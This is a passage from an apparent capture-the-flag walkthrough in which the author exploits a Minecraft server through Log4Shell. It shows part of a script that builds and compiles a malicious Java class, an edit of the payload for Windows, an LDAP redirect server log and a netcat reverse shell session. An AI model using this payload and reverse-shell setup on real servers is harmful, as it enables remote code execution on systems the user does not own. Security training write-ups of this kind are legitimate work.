 ```
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')

```

It puts in the IP and port, writes it to disk, and then compiles it with `javac`.

Looking at the payload, it’s using `String cmd="/bin/sh";`, which won’t work on a Windows host. I’ll edit that to `String cmd="cmd.exe";`.

#### Exploit Success

Running the updated exploit, I’ll send the payload to Minecraft. This time there’s only on hit at the exploit:

```

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
10.10.11.249 - - [10/Jun/2024 17:48:09] "GET /Exploit.class HTTP/1.1" 200 -

```

And a shell at `nc`:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.249 49717
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server> whoami
crafty\svc_minecraft

```
